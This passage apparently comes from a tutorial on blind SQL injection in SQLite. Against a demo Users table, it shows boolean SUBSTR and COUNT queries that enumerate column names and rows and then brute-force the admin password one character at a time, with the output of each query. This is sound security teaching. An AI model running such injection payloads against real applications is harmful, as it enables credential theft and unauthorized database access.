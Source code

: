 This informs us we have three columns, which we can iterate through in the same way as the table name:

```
sqlite> SELECT * from Users where username='admin' AND (SUBSTR((SELECT name FROM pragma_table_info('Users') LIMIT 1 OFFSET 0), 1, 1)='a');
sqlite> SELECT * from Users where username='admin' AND (SUBSTR((SELECT name FROM pragma_table_info('Users') LIMIT 1 OFFSET 0), 1, 1)='u');
admin|admin_password|Admin data
```

For this target, we need to iterate through the `OFFSET` to figure out the column of interest. Changing offset to `1` shows that the column name is `password`, which definitely looks of interest! Before moving on, let's check how many entries we have in the table by `SELECT * from Users` and using the result in our `COUNT` comparison:

```
sqlite> SELECT * from Users where username='admin' AND (SELECT CASE WHEN COUNT(*) > 1 THEN 1 ELSE 'no' END AS result FROM users);
admin|admin_password|Admin data
sqlite> SELECT * from Users where username='admin' AND (SELECT CASE WHEN COUNT(*) > 2 THEN 1 ELSE 'no' END AS result FROM users);
sqlite> 
```

Ok good, we only have two rows. If we had more rows it might be useful to iterate through the users to find one of interest before simply dumping passwords. In this case we might surmise that the target is the `admin` user, so we can add `WHERE username='admin'` to our subquery when performing the string comparisons. This takes the same form as before, using `SELECT password` as the column of interest. 

```
sqlite> SELECT * from Users where username='admin' AND (SUBSTR((SELECT password FROM Users WHERE username='admin' LIMIT 1 OFFSET 0), 1, 1)='a');
admin|admin_password|Admin data
sqlite> SELECT * from Users where username='admin' AND (SUBSTR((SELECT password FROM Users WHERE username='admin' LIMIT 1 OFFSET 0), 1, 2)='aa');
sqlite> SELECT * from Users where username='admin' AND (SUBSTR((SELECT password FROM Users WHERE username='admin' LIMIT 1 OFFSET 0), 1, 2)='ad');
admin|admin_password|Admin data
```

Eventually, our brute force will get to the point where the following query with `admin_password` passes the comparison and no further appended letters succeed. We can conclude this is the password and try it for ourselves!

```
SELECT * from Users where username='admin' AND (SUBSTR((SELECT password FROM Users WHERE username='admin' LIMIT 1 OFFSET 0), 1, 14)='admin_password');
admin|admin_password|Admin data
```

This is another good moment to step back and appreciate what we accomplished. We turned a simple SQLi vulnerability into configurable primitives: conditional checks that can be used to count and find strings. We used those strings to leak the tables in the database, the columns in the tables, and the data in the columns. We could enumerate the entire database with enough time! This is what makes blind SQLi such a powerful attack vector.
